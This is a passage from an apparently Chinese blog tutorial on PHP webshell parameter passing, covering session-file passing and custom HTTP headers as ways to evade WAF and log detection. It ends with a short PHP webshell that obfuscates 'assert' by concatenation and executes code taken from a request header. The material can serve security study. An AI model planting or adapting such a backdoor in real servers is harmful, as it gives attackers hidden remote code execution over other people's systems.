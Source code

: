 <img src=".\图片\Snipaste_2023-04-26_17-44-07.png" alt="Snipaste_2023-04-26_17-44-07" style="zoom:80%;" />

再访问 test19.php 从 SESSION 文件里取出 dmeo 的值，进入到 assert 中触发代码执行：
<img src=".\图片\Snipaste_2023-04-26_17-46-23.png" alt="Snipaste_2023-04-26_17-46-23" style="zoom:80%;" />



总结：session传参其实就是一种参数转移的感觉

### 3.自定义头

自定义请求头其实也是作为一种伪装的请求方式，你可以选择完全自定义一个请求头进行参数传递，但是很多waf也会检测一些没出现过的请求头容易被识别出来，且一旦在日志中被找到一个以这种方式传参，很容易就能查找到使用数据包，还是不稳当，与cookie相比，cookie本身就是一堆随机数不好区分

```php
<?php
session_start();
$a = "a";
$s = "s";
$c=$a.$s."sert";
$c(getallheaders()['Demo']);
```
